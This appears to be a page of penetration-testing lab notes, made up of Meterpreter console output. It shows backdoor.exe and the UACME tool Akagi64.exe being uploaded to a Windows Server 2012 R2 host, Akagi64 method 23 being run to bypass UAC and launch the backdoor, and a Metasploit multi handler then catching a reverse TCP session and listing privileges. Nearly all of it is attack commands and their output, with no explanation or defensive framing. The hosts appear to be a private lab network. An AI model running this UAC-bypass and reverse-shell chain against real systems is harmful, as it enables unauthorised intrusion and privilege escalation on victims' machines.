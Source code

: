 ```
[*] uploaded   : /root/backdoor.exe -> backdoor.exe
meterpreter > upload /root/Desktop/tools/UACME/Akagi64.exe
[*] uploading  : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] Uploaded 194.50 KiB of 194.50 KiB (100.0%): /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] uploaded   : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
meterpreter > shell
Process 2036 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Temp>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\Temp

07/18/2023  07:33 AM    <DIR>          .
07/18/2023  07:33 AM    <DIR>          ..
07/18/2023  07:33 AM           199,168 Akagi64.exe
07/18/2023  07:33 AM            73,802 backdoor.exe
               2 File(s)        272,970 bytes
               2 Dir(s)   8,270,569,472 bytes free

C:\Temp>.\Akagi64.exe 23 C:\Temp\backdoor.exe
.\Akagi64.exe 23 C:\Temp\backdoor.exe

C:\Temp>
```

[[metasploit]] # this is from the multi handler

```
[*] Started reverse TCP handler on 10.10.19.3:1234 
[*] Sending stage (175174 bytes) to 10.5.18.130
[*] Meterpreter session 1 opened (10.10.19.3:1234 -> 10.5.18.130:49337) at 2023-07-18 13:05:06 +0530

meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
```
